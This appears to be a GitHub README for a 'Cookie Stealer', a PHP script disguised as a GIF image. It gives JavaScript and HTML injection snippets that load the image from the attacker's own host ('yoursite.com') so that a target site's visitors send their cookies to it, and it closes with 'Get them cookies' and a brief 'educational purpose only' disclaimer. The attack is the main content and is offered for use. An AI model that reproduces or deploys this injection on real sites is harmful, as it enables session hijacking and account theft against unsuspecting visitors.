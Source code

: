 # Cookie Stealer

A cookie stealer disguised as a gif image.

## Hot to use

Host the *image.php* file wherever you want.

Inject the code on the target

```javascript
let img = new Image();
img.src = "http://yoursite.com/image.php";
document.body.appendChild(img);
```
or in plain html

```html
<img src="http://yoursite.com/image.php">
```

Get them cookies.

## Disclaimer

I'm not responsible for your actions. The code provided here is for educational purpose only. If you find a web site with code injection vulnerability, inform them.

I wrote this script some time ago, after watching this video:

[![Send cookies with image request](http://img.youtube.com/vi/KaEj_qZgiKY/0.jpg)](http://www.youtube.com/watch?v=KaEj_qZgiKY?t=167)

